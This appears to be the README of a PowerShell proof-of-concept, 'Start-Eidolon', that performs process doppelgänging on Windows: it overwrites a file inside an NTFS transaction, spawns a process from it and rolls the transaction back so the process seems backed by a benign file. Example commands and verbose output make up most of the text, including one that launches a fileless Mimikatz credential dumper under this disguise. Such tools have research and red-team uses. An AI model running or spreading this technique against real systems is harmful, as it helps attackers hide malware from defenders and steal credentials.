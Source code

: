 ### Start-Eidolon

This is a proof-of-concept for doppelgänging, which was recently presented by enSilo at BlackHat EU. In simple terms this process involves creating an NTFS transaction from a file on disk (any file will do). Next we overwrite the file in memory, create a section from the modified file and launch a process based on that section. Afterwards we roll back the transaction, leaving the original file unchanged but we end up with a process that appears to be backed by the original file. For a more complete description please review the reference in the script.

```
# Create a doppelgänger from a file on disk with explorer as the parent.
# x64 Win10 RS3
C:\PS> Start-Eidolon -Target C:\Some\File.Path -Eidolon C:\Some\Other\File.Path -ParentPID 12784 -Verbose
VERBOSE: [+] Created transaction object
VERBOSE: [+] Created transacted file
VERBOSE: [+] Overwriting transacted file
VERBOSE: [+] Created section from transacted file
VERBOSE: [+] Rolled back transaction changes
VERBOSE: [+] Opened handle to the parent => explorer
VERBOSE: [+] Created process from section
VERBOSE: [+] Acquired Eidolon PBI
VERBOSE: [+] Eidolon architecture is 64-bit
VERBOSE: [+] Eidolon image base: 0x7FF6A0570000
VERBOSE: [+] Eidolon entry point: 0x7FF6A05E40C8
VERBOSE: [+] Created Eidolon process parameters
VERBOSE: [+] Allocated memory in Eidolon
VERBOSE: [+] Process parameters duplicated into Eidolon
VERBOSE: [+] Rewrote Eidolon->PEB->pProcessParameters
VERBOSE: [+] Created Eidolon main thread..
True

# Create a fileless Mimikatz doppelgänger with PowerShell as the parent.
# x32 Win7
C:\PS> Start-Eidolon -Target C:\Some\File.Path -Mimikatz -Verbose
VERBOSE: [+] Created transaction object
VERBOSE: [+] Created transacted file
VERBOSE: [+] Overwriting transacted file
VERBOSE: [+] Created section from transacted file
VERBOSE: [+] Rolled back transaction changes
VERBOSE: [+] Created process from section
VERBOSE: [+] Acquired Eidolon PBI
VERBOSE: [+] Eidolon architecture is 32-bit
VERBOSE: [+] Eidolon image base: 0x400000
VERBOSE: [+] Eidolon entry point: 0x4572D2
VERBOSE: [+] Created Eidolon process parameters
VERBOSE: [+] Allocated memory in Eidolon
VERBOSE: [+] Process parameters duplicated into Eidolon
VERBOSE: [+] Rewrote Eidolon->PEB->pProcessParameters
VERBOSE: [+] Created Eidolon main thread..
True
```
